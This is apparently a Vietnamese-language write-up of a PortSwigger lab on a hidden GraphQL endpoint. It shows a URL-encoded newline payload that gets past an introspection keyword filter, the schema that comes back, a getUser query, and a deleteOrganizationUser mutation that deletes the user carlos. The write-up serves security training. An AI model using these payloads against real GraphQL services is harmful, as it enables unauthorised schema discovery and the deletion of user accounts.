










# WRiteup LAB Finding a hidden GraphQL endpoint

## Goal
To solve the lab, find the hidden endpoint and delete carlos
## Khai thác
Trang chủ

Ở bài lab này thay vì như các lab truosc thì LAB này nó ẩn endpoint đi bằng cách đó tôi nhanh chóng sử dụng burp Scan của pro scan và tìm thấy endpoint `/api?query`


Bằng cách này tôi sử dụng bảng truy vấn nội suy toàn ứng dụng và thực hiện gửi truy vấn như sau: <br>

Lúc này ứng dụng đã chặn các từ khóa `__schema ` hay `__type` của chúng ta và bằng cách này quay lại tài liệu PortSwigger có nói:
> Bạn nên thử các ký tự như dấu cách, xuống dòng và dấu phẩy, vì chúng bị GraphQL bỏ qua nhưng biểu thức chính quy không bị lỗi. Lúc này có thể truy vấn được nội suy <br>
Thực hiện với tải trọng xuống dòng kèm urlencode payload <br>
```json
query%7B__schema%0A%20%20%20%20%20%20%20%20%7BqueryType%7Bname%7D%7D%7D
```
Lúc này chúng ta đã bỏ qua được điều đó

Thực hiện như trên vơi tải trọng nội suy toàn ứng dụng <br>

Trong phản hồi thấy được dữ liệu quan trọng về xóa user như sau
```json
{
  "data": {
    "__schema": {
      "types": [
        [...]
        {
          "name": "DeleteOrganizationUserInput",
          "fields": null
        },
        {
          "name": "DeleteOrganizationUserResponse",
          "fields": [
            {
              "name": "user",
              "args": []
            }
          ]
        },
        [...]
        {
          "name": "User",
          "fields": [
            {
              "name": "id",
              "args": []
            },
            {
              "name": "username",
              "args": []
            }
          ]
        },
        [...]
        {
          "name": "mutation",
          "fields": [
            {
              "name": "deleteOrganizationUser",
              "args": [
                {
                  "name": "input",
                  "description": null,
                  "type": {
                    "name": "DeleteOrganizationUserInput",
                    "kind": "INPUT_OBJECT",
                    "ofType": null
                  }
                }
              ]
            }
          ]
        },
        {
          "name": "query",
          "fields": [
            {
              "name": "getUser",
              "args": [
                {
                  "name": "id",
                  "description": null,
                  "type": {
                    "name": null,
                    "kind": "NON_NULL",
                    "ofType": {
                      "name": "Int",
                      "kind": "SCALAR"
                    [...]
```
Thu được dữ liệu

Thực hiện truy vấn get user: 
```json
{
    getUser(id:3) {
        id
        username
    }
}
```
Response:
```json
{
  "data": {
    "getUser": {
      "id": 3,
      "username": "carlos"
    }
  }
}
```
Sau đó có thể sử dụng `deleteOrganizationUser` truy vấn mutation để xóa người dùng carlos tải trọng <br>
```json
mutation {
    deleteOrganizationUser(input:{id:3}) {
        user {
            id
            username    
        }
    }
}
```

